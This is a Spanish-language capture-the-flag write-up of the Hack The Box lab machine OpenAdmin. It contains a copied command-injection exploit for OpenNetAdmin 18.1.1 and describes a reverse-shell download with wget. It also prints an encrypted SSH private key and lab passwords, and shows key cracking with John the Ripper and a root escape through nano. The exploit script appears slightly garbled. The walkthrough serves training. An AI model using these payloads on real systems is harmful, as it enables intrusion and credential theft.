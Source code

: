 ```yaml
---
title: "HTB – OPENADMIN"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/OpenAdmin.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
---
```


OS 				 | LINUX
Desarrollado por | dmw0ng
Dificultad 		 | Fácil
Liberación 		 | 4 enero 2020
Puntos 			 | 20

## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.171 y luego con el comando nmap -sCV -p22,80 10.10.10.171 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 15:01 BST
Nmap scan report for 10.10.10.171
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=38520%PV=Y%DS=2%DC=T%G=Y%TM=5E9DAB7
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT ADDRESS
1 103.86 ms 10.10.14.1
2 104.25 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 41.01 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la dirbuster para buscar paginas ocultas y poder acceder a ellas. Simultaneamente hacemos Fuzzing.

- Music
- Ona
- Artwork
- Marga
- Sierra

Al entrar a cada una de las webs vemos que ona es OpenNetAdmin de versión 18.1.1 buscando en las bases de datos de exploit encontramos un CVE de ejecución remota de código, por lo que se busca el exploit y se encuentra en https://www.exploit-db.com/exploits/47691

```
#!/bin/bash

URL="${1}" while true;do echo -n "$ "; read cmd url --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n done
```

## 1° Shell

Al archivo del exploite le damos permiso 744 y lo ejecutamos de la siguiente manera ./archivo.sh http://10.10.10.171/ona/login.php con esto nos abrirá una terminar con opciones reducidas y difícil de navegar dentro de la misma.

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget

Navegando con shell podemos ver que existe 2 usuarios jimmy y joanna, y los archivos de configuración de la web OpenNetAdmin, de acuerdo a la documentación de la web, todo archivo de configuración se encuentra en **local/config**, es acá donde se encuentra una password n1nj4W4rri0R! en database_settings.inc.php, normalmente reutilizan las contraseñas por lo que se intentará ingresar con los usuarios encontrados.

## 2° Shell

El password sirve para acceder vía ssh con el usuario jimmy, pero este usuario no posee la flag de user, por lo que se deberá ver cómo escalar los privilegios al segundo usuario joanna.

Investigando el **/var/www** encontramos que hay una página interna llamada internal es por ello que se revisa la configuración de los sitios en el apache **/etc/apache2**. Al investigar las configuraciones de apache se encontró que hay un sitio que se accede localmente al puerto 52846 /etc/apache2/sites-enabled/internal.conf

Revisando el código fuente de la página internal vemos el archivo main.php encontramos lo siguiente:

```
<?php
session_start();
if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Esto nos dice que nos mostrará el id_rsa del usuario joanna, existe dos formas obtener esta web
### Vía CURL

Para obtener el id_rsa se ejecuta el comando curl http://127.0.0.1:52846/main.php esto mostrar el id_rsa completo.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Vía SSH TUNELING

Al revisar la web internal, nos damos cuenta que en index.php compara el pass con un hash ‘**00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1**′ en sha512, la cual al desencriptarla obtenemos que la clave es Revealed

Con esto generamos el tunel con el siguiente código desde la maquina atacante **ssh -L1234:127.0.0.1:52846 jimmy@10.10.10.171** esto hace el puerto 1234 de la maquina atacante se vincula con el puerto 52846 permitiendo ver la web

Usamos el usuario jimmy y la clave Revealed obtenidas anteriormente nos devuelve el id_rsa

## 3° SHELL (usuario)

Con el id_rsa se debe desencriptar con John the ripper para ello primero obtenemos el hash del id_rsa con **python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash** luego con ese hash ejecutamos John **john id_rsa.hash –wordlist=/usr/share/wordlists/rockyou.txt** y lo que obtenemos es la contraseña de id_rsa **bloodninjas** e ingresando con **ssh –i id_rsa joanna@10.10.10.171** y obtenemos la primera flag.

## 4° SHELL (root)

Dentro del equipo con el usuario joanna revisamos si tiene algún permiso como root, con el comando sudo -l y vemos que si lo tiene con /bin/nano en el archivo /opt/priv, debido a esto usamos GTFObins para revisar si hay escalada de privilegio con nano. Usando ^R^Xreset; sh 1>&0 2>&0 desde nano podemos escapar de él y obtener un sh de root, obteniendo la ultima flag.

![Racso](https://www.hackthebox.com/badge/image/159593)